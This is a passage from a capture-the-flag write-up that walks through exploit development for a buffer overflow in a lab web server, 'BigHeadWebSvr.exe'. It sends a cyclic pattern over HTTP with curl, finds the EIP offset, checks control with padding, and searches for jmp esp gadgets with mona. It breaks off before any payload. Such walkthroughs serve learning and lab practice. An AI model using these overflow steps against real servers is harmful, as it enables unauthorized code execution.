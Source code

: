     
    
    root@kali# msf-pattern_create -l 50 | xxd -p | tr -d "\n"
    41613041613141613241613341613441613541613641613741613841613941623041623141623241623341623441623541620a
    

I’ll fire up `BigHeadWedSvr.exe` and then attach Immunity to it. Note,
sometimes to get Immunity to work, I’ll need to completely exit it, then start
the web server, then start Immunity and attach. If I leave it open between
runs, things get weird. Immunity isn’t the greatest.

Now I’ll send my pattern:

    
    
    root@kali# curl --head http://10.1.1.146:8008/4161304161314161324161334161344161354161364161374161384161394162304162314162324162334162344162354162
    

In my Windows VM:

![1554139213884](https://0xdfimages.gitlab.io/img/1554139213884.png)

If I click ok and hit the run button, I’ll see EIP:
![1554139238133](https://0xdfimages.gitlab.io/img/1554139238133.png)

Because of the weird way I’m putting in bytes as hex in the url, I’ll need to
reverse the byte order to use pattern offset:

    
    
    root@kali# msf-pattern_offset -q 41326241
    [*] Exact match at offset 36
    

So that’s 36 bytes, or 72 characters. I can verify (using 8 Bs to make 4
bytes):

    
    
    root@kali# curl --head http://10.1.1.146:8008/$(python -c 'print "A"*72 + "B"*8')
    

![1554139443908](https://0xdfimages.gitlab.io/img/1554139443908.png)

### Find JMP ESP

Next I’ll look for a `jmp esp` gadget so that I can jmp back to my code once I
gain execution. I’ll check out the modules using `!mona modules`:

[![Mona Modules](https://0xdfimages.gitlab.io/img/1554139883147.png)_Click for
full size image_](https://0xdfimages.gitlab.io/img/1554139883147.png)

I need to find the `jmp esp` inside of a module without ASLR, or else it
doesn’t help me. Good options appear to be the exe itself, the associated dll,
and the MinGW dll.

I can use `!mona jmp -r esp` to find a list of possible gadgets:

[![Mona jmp esp](https://0xdfimages.gitlab.io/img/1554140320135.png)_Click for
full size image_](https://0xdfimages.gitlab.io/img/1554140320135.png)
